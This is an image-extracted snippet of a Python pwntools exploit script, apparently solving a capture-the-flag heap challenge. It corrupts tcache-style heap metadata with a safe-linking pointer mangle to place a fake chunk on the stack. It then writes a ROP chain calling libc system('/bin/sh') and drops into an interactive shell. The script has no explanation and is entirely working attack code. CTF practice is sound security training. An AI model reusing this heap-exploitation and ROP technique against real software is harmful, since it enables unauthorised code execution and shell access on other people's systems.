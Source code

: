 ```python
create(0x50, b'a\n') # 5
stack = gift()  
info("Stack: " + hex(stack))

payload = flat(
        stack+0xa0,
        0, 0x60,
        0, 0,
        0, 0,
        0, 0,
        0, 0,
)
write(payload)
remove(5)
remove(6)
remove(17)
payload = flat(
        (stack+0xa0),
        0, 0x60,
        (stack + 0x100) ^ (stack + 0xa0) >> 12, 0,
        0, 0,
        0, 0,
        0, 0,
)
write(payload)
create(0x50, b'a')
rop = ROP(libc)
payload = flat(
        stack, 
        rop.find_gadget(['ret']).address,
        rop.find_gadget(['pop rdi', 'ret']).address, next(libc.search(b'/bin/sh')),
        libc.sym.system
)
create(0x50, payload)
p.interactive()
```